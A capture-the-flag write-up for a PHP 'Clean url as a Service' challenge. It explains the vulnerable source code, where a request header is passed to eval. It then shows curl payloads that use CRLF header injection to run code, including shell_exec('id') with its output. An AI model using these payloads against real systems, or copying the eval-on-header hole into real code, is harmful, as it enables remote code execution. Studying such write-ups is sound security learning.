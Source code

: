 # Clean url as a Service


![image](https://user-images.githubusercontent.com/31372554/164913784-f3c5e9b7-e7c1-48fa-be5e-1db086f0987f.png)

Upon visiting the site, we can see there is an input field which asks for an url. The placeholder is set to https://www.example.tld/cleanmepls?name=joe&age=13&address=very-very-very-long-string so let's try with a simple url such as:

https://google.com/?test=test



Upon clicking on the `clean` button , a POST request is sent to the `cleaner.php` endpoint and in the body of the request you can see our URL:

```
POST / HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45


url=https%3A%2F%2Fgoogle.com%2F%3Ftest%3Dtest
```


The server returns this output:

![image](https://user-images.githubusercontent.com/31372554/164913766-6885efbf-08a1-413a-b5d2-7b9e0e269a84.png)


```
There your cleaned url: google.com
Thank you For Using our Service!
```

OK, from this output it's clear that the application just takes an URL as an input and returns the host part as the output. Or is to so?


--------------------------


Let's dive deep into the source code to figure it out:
We were provided with two php files `index.php` and `cleaner.php`

`Cleaner.php` (section 1)
```php
<?php

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){

die("<img src='https://imgur.com/x7BCUsr.png'>");

}


echo "<br>There your cleaned url: ".$_POST['host'];
echo "<br>Thank you For Using our Service!";


function tryandeval($value){
                echo "<br>How many you visited us ";
                eval($value);
        }


foreach (getallheaders() as $name => $value) {
        error_log($value);
	if ($name == "X-Visited-Before"){ // [2]
		tryandeval($value);
	}}
?>

```

`index.php` (section 2)

```php

<?php
if($_SERVER['REQUEST_METHOD'] == "POST" and isset($_POST['url']))
    {
        clean_and_send($_POST['url']);
    }

	function clean_and_send($url){
		error_log("Cleaning url: ".$url);
			$uncleanedURL = $url; // should be not used anymore
			$values = parse_url($url);
			$host = explode('/',$values['host']);
			$query = $host[0];
			$data = array('host'=>$query);
			$cleanerurl = "http://127.0.0.1/cleaner.php";
   			$stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [ //[1]
			'method' => 'POST',
			'header' => "X-Original-URL: $uncleanedURL",
			'content' => http_build_query($data)
			]
			]));
    			echo $stream;
?>

```

The `index.php` code starts with a *if condition check* which basically checks for two things the `REQUEST_METHOD`  and the `url` parameter. If the request method is *POST* and in the request body there is `url` parameter.

The `clean_and_send` function is called and the url is directly passed as an *arguement* to this function.

In the function, the argument url is stored in the `$uncleanedURL` variable.

This array is then stored in the `$values` variable.

```php
php > print_r(parse_url("https://google.com/?test=test"));
Array
(
    [scheme] => https
    [host] => google.com
    [path] => /
    [query] => test=test
)
```

By executing the challenge code line by line, you can get a understanding of what the code does.

```php
php > $host = explode('/',$values['host']);
php > echo $host;
PHP Notice:  Array to string conversion in php shell code on line 1
Array
php > print_r($host);
Array
(
    [0] => google.com
)
```

In line `[1]` , using *file_get_contents*  a POST request to the `/cleaner.php`  is made along with one additional header `'header' => "X-Original-URL: $uncleanedURL"` , on the side note we have full control over `X-Original-URL` header value let's keep this in mind and check the `cleaner.php` code to understand how it handles the POST request.


On the very first line in `cleaner.php`, there is a condition to check whether the client's IP is equal to 127.0.0.1 or not.

There is one interesting function `tryandeval` which is only invoked if the POST request contains the `X-Visited-Before` header (the value of this header is passed as an arguement to tryandeval function) it then passes the header value to `eval`.

So now we have our goal clear of what we need to do, we have to find a way to include `X-Visited-Before` header in the POST request which is sent to the `cleaner.php` endpoint ([1])



As the cleaner.php endpoint was accessible by directly visiting the http://challengesite.xyz/cleaner.php , I thought if there's any way to bypass the `$_SERVER["REMOTE_ADDR"] != "127.0.0.1"` check we can easily add the required `X-Visited-Before` header and execute any command we want.

After reading some articles & stackoverflow posts, I found that it was the correct way of validating client's IP.So I then started looking at other part of the [1] line.

Remeber earlier I told to keep note of the `X-Original-URL` , as we have full control over it's value we can try including crlf characters to check if header injection is possible or not.

It was just assumption what would happen if I run the following code:

```php

$uncleanedURL = $_GET['uncleanedURL'];


function test($uncleanedURL){
      $cleanerurl = "https://en2celr7rewbul.m.pipedream.net";
      $data = "test";
      $stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [ 
        'method' => 'POST',
        'header' => "X-Original-URL: $uncleanedURL",
        'content' => http_build_query($data) ]
    ]));
}

test($uncleanedURL);
```
```bash
curl "http://127.0.0.1:1337/test.php?uncleanedURL=https://google.com/?test=test"
```

![chrome_3LXzVAMNyB](https://user-images.githubusercontent.com/31372554/164913802-1f44c24b-5316-49fb-9e40-267ba9b350f8.png)


Now let's try to add a new header using `%0AX-Hacked:shirley`

```bash
curl "http://127.0.0.1:1337/test.php?uncleanedURL=https://google.com/?test=test%0AX-Hacked:shirley"
```


![chrome_VO98hEuiO3](https://user-images.githubusercontent.com/31372554/164913805-3aa1a4b6-e595-4748-8a86-5315dfe045de.png)


We have successfully added a new header 😎


----------------------------------------------------------



Coming to back to the challenge code, let's try to input the following url: `https://google.com/?test=test%0AX-Visited-Before:1` 


![ubuntu_sv5JH76CN8](https://user-images.githubusercontent.com/31372554/164913824-7c24ce34-f48e-4f27-8917-075975278870.png)


The application didn't even returned any message , if we look at the above screenshot:

On the right hand side you can see that we have successfully added the `X-Visited-Before` header to the request , but it seems an error was triggered by the `eval` function.

eval function executes any given string as a php code, `shirley` was provided as a string to the eval function. As `shirley` string isn't a valid php code the error was triggered.

Let's this try something simple: `echo 1337;` (semicolon is necessary as in php every statement should end with a semicolon)

```bash
curl http://127.0.0.1:1337/ -d "url=https://google.com/%0aX-Visited-Before:echo 1337;" -X POST
```

We get the following response:

```html
<br>There your cleaned url: google.com<br>Thank you For Using our Service!<br>How many you visited us 1337
```

Bingoo ! We can also execute any system command such as `id`

```bash
curl http://127.0.0.1:1337/ -d "url=https://google.com/%0aX-Visited-Before:echo shell_exec('id');" -X POST 
```

```
<br>There your cleaned url: google.com<br>Thank you For Using our Service!<br>How many you visited us uid=1000(shirley) gid=1000(shirley) groups=1000(shirley),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo)
```



In the end when I actually used the same payload on the challenge site, it didn't worked for some reasons which I wasn't aware. I tried some payload variations such as `%0A%0Dheader:value` but still couldn't figured it out.
As I was making no progress , I decided to contact the author of the challenge and explained everything to him. Turns out the problem was that the challenge site was running on Apache webserver and I was using the inbuilt php webserver.

The final working payload which also worked on the challenge site was: `https://google.com/%0D%0AX-Visited-Before:echo+1;`
